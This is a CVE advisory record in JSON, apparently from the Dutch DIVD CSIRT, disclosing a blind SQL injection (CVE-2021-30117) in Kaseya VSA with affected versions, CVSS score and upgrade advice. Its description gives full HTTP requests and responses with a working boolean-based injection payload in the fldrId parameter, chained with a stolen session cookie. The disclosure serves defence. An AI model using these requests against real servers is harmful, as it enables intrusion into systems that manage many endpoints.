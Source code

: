 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30117",
        "STATE": "PUBLIC",
        "TITLE": "Authenticated SQL injection in Kaseya VSA < v9.5.6"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA (on premise and SaaS)",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            },
                            {
                                "product_name": "Kaseya VSA Agent",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.0.23"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "The API call /InstallTab/exportFldr.asp is vulnerable to a semi-authenticated boolean-based blind SQL injection in the parameter fldrId.\n\nDetailed description\n---\n\nGiven the following request:\n```\nGET /InstallTab/exportFldr.asp?fldrId=1’ HTTP/1.1\nHost: 192.168.1.194\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\nAccept-Language: en-US,en;q=0.5\nAccept-Encoding: gzip, deflate\nDNT: 1\nConnection: close\nUpgrade-Insecure-Requests: 1\nCookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861;  agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519;\n```\n\nWhere the sessionId cookie value has been obtained via CVE-2021-30116. The result should be a failure.\n\nResponse:\n```\nHTTP/1.1 500 Internal Server Error\nCache-Control: private\nContent-Type: text/html; Charset=Utf-8\nDate: Thu, 01 Apr 2021 19:12:11 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 881\n \n<!DOCTYPE html>\n<HTML>\n \n<HEAD>\n \t<title>Whoops.</title>\n        <meta http-equiv=\"X-UA-Compatible\" content=\"IE=Edge\" />\n \n \n\t<link id=\"favIcon\" rel=\"shortcut icon\" href=\"/themes/default/images/favicon.ico?307447361\"></link>\n \n----SNIP----\n```\n\nHowever when fldrId is set to ‘(SELECT (CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END))’ the request is allowed.\n\nRequest:\n```\nGET /InstallTab/exportFldr.asp?fldrId=%28SELECT%20%28CASE%20WHEN%20%281%3D1%29%20THEN%201%20ELSE%20%28SELECT%201%20UNION%20SELECT%202%29%20END%29%29 HTTP/1.1\nHost: 192.168.1.194\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\nAccept-Language: en-US,en;q=0.5\nAccept-Encoding: gzip, deflate\nDNT: 1\nConnection: close\nUpgrade-Insecure-Requests: 1\nCookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861;  agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519;\n```\n\nResponse:\n```\nHTTP/1.1 200 OK\nCache-Control: private\nContent-Type: text/html; Charset=Utf-8\nDate: Thu, 01 Apr 2021 17:33:53 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 7960\n \n \n<html>\n<head>\n<title>Export Folder</title>\n<style>\n------ SNIP ----- \n```"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 9.8,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-89 SQL Injection"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "MISC",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021"
            }
        ]
    },
    "solution": [
        {
            "lang": "eng",
            "value": "SaaS version has been fixed by the vendor\n\nOnpremise\nUpgrade the server to version 9.5.6 or above\nUpgrade the agent to version 9.5.0.23 or above"
        }
    ],
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


